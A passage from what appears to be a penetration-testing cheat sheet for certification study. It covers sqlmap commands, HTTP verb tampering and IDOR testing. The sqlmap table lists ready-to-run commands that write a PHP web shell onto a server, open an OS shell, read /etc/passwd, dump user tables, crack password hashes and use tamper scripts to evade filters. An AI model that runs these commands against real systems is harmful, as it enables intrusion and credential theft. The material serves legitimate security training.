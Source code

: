 | `sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp"`                                  | Writes a shell in specified server folder by using a request file (POST request via Burp and saved it as a local text file), and returns a fully interactive shell |
| `sqlmap -u "http://www.example.com/?id=1" --schema`                                                       | DB Schema enumeration                                                                                                                                              |
| `sqlmap -u "http://www.example.com/?id=1" --search -T user`                                               | Search identifiers names (Tables)                                                                                                                                  |
| `sqlmap -u "http://www.example.com/?id=1" --search -C passw`                                              | Search identifiers names (Column)                                                                                                                                  |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname`                      | Dump specific table and columns                                                                                                                                    |
| `sqlmap -u "http://www.example.com/?id=1" --passwords --batch`                                            | With passwords flag sqlmap will try to crack the passwords                                                                                                         |
| `sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba`                                              | Checking for DBA Privileges                                                                                                                                        |
| `sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"`                                      | Reading files                                                                                                                                                      |
| `sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"` | Writing local files                                                                                                                                                |
| `--level 1-5 O --risk 1-5`                                                                                | Increase level or risk                                                                                                                                             |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users --tamper=between,randomcase`                    | Tampering to bypass security                                                                                                                                       |

### HTTP Verb Tampering
With this technique we can abuse some functionalities:
* HTTP basic authentication, just changing the HTTP method.
* Security filters that prevent web exploitation

<u>HTTP Method</u>
- `HEAD`
- `PUT`
- `DELETE`
- `OPTIONS`
- `PATCH`

| **Command** | **Description** |
| ---- | ---- |
| `-X OPTIONS` | Set HTTP Method with Curl |
### Stealing NTLM Hash with Responder
[[Cheatsheets/Mix-OSCP-CPTS/Windows/2. Attacking AD#Stealing NTLM hashes with Responder]]

### Insecure Direct Object References (IDOR)
Whenever we receive a specific file or resource, we should study the HTTP requests to look for URL parameters or APIs with an object reference (e.g. `?uid=1` or `?filename=file_1.pdf`). These are mostly found in URL parameters or APIs but may also be found in other HTTP headers, like cookies. In the most basic cases, we can try incrementing the values of the object references to retrieve other data, like (`?uid=2`) or (`?filename=file_2.pdf`). We can also use a fuzzing application to try thousands of variations and see if they return any data. Any successful hits to files that are not our own would indicate an IDOR vulnerability.

<u>AJAX Calls</u>:
We may also be able to identify unused parameters or APIs in the front-end code in the form of JavaScript AJAX calls. Some web applications developed in JavaScript frameworks may insecurely place all function calls on the front-end and use the appropriate ones based on the user role. For example, if we did not have an admin account, only the user-level functions would be used, while the admin functions would be disabled. However, we may still be able to find the admin functions if we look into the front-end JavaScript code and may be able to identify AJAX calls to specific end-points or APIs that contain direct object references. If we identify direct object references in the JavaScript code, we can test them for IDOR vulnerabilities.
This is not unique to admin functions, of course, but can also be any functions or calls that may not be found through monitoring HTTP requests. The following example shows a basic example of an AJAX call:
